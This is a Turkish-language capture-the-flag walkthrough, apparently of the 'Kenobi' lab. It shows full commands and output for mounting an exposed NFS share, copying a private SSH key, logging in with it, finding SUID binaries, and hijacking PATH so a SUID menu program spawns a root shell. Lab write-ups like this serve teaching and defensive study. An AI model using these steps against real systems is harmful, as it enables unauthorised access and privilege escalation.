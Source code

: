 [[FTP]] de gösterildiği gibi id_rsa dosyamızı /var/tmp altına kopyaladık. [[RPC]] de /var klasörünün paylaşımda olduğunu görmüştük bu klasöre bağlanacağız. 

```
┌─[root@parrot]─[/mnt]
└──╼ #mkdir kenobiNFS
┌─[root@parrot]─[/mnt]
└──╼ #mount 10.10.30.127:/var /mnt/kenobiNFS/
┌─[root@parrot]─[/mnt]
└──╼ #ls kenobiNFS/tmp/
	id_rsa  
```


```
┌─[root@parrot]─[/mnt]
└──╼ #cp kenobiNFS/tmp/id_rsa /home/user/Desktop/Kenobi/
```

```
┌─[✗]─[root@parrot]─[/home/user/Desktop/Kenobi]
└──╼ #ls
id_rsa  log.txt  nmap.txt  prftp.py
┌─[root@parrot]─[/home/user/Desktop/Kenobi]
└──╼ #chmod 600 id_rsa 
```


```
┌─[root@parrot]─[/home/user/Desktop/Kenobi]
└──╼ #ssh -i id_rsa kenobi@10.10.30.127
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Tue Oct 22 06:22:26 2024 from 10.11.106.146
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ whoami
kenobi
```


Sistem üzerinde ayrıcalıklı olarak çalışan uygulamaları tespit etmek için aşağıda ki scripti kullanıyoruz 

`find / -perm -u=s -type f 2>/dev/null`

```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

Burada diğerlerinden farklı olan "/usr/bin/menu" . İçeriğine baktığımızda 

```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :

```

böyle bir uygulmayla karşılaşıyoruz. Bazı fonksiyonları otomatize ve hızlı hale getirilme amaçlı yapılmış. 

strings komutu bize binary dosyasında okunabilir kelimeleri getirir. 

```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :^C
kenobi@kenobi:~$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice

```

Normalde "/usr/bin/uname -r " olarak çağırlması gerekirken kernel versiyonu direkt uname -r olarak çağrılmış. 


```
kenobi@kenobi:~$ echo /bin/sh > uname
kenobi@kenobi:~$ chmod 777 uname
kenobi@kenobi:~$ pwd
/home/kenobi
kenobi@kenobi:~$ export PATH=/home/kenobi:$PATH
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
# whoami
root
# 

```
